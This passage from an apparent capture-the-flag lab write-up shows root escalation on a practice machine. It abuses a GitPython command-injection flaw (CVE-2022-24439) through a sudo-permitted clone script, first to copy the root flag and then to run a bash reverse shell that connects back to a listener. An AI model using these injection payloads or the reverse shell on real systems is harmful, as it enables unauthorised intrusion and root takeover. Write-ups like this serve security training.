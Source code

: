 Nice! Lets try to get the contents of root.txt now:

```shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root.txt'
```

```shell
cat /tmp/root.txt
```

It worked! Now we were able to read the contents of root.txt.

Searching for more information about this vulnerability, we found CVE-2022-24439:

https://nvd.nist.gov/vuln/detail/CVE-2022-24439

Which explains us why this happened:

```shell
All versions of package gitpython are vulnerable to Remote Code Execution (RCE) due to improper user input validation, which makes it possible to inject a maliciously crafted remote URL into the clone command. Exploiting this vulnerability is possible because the library makes external calls to git without sufficient sanitization of input arguments.
```
### CVE-2022-24439 - Abusing Command Injection vulnerability inside python script to trigger a bash script with a reverse shell and get a shell as root 

We can also abuse the command injection vulnerability inside the python script to get a reverse shell making root read a bash script containing our reverse shell:

```shell
# Start nc listener
nc -lvnp 8443

# Create bash script containing our reverse shell
echo "bash -i >& /dev/tcp/10.10.14.206/8443 0>&1" > /tmp/shell.sh

# Run the script as follow to trigger the bash script with our reverse shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```

It worked! We got a shell as root:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.138.51] 50228
root@editorial:/opt/internal_apps/clone_changes# whoami
whoami
root
```

### Root Flag
Now we can get the root.txt flag:

```shell
cat /root/root.txt
```